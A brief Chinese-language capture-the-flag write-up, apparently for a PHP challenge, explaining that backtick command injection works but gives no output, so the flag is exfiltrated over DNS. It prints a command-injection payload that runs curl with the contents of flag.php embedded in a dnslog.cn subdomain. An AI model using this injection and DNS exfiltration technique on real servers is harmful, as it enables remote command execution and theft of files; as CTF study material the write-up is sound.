

# 知识点
[https://blog.csdn.net/qq_46091464/article/details/109095382](https://blog.csdn.net/qq_46091464/article/details/109095382)
# 思路
可以通过` `进行命令执行<br />但因为不会回显且写入权限被禁，所以可以通过访问dns服务器外带出flag
```python
?F=`$F`;%20curl%20`cat%20flag.php|grep%20%22flag%22`.vz6r2r.dnslog.cn
```

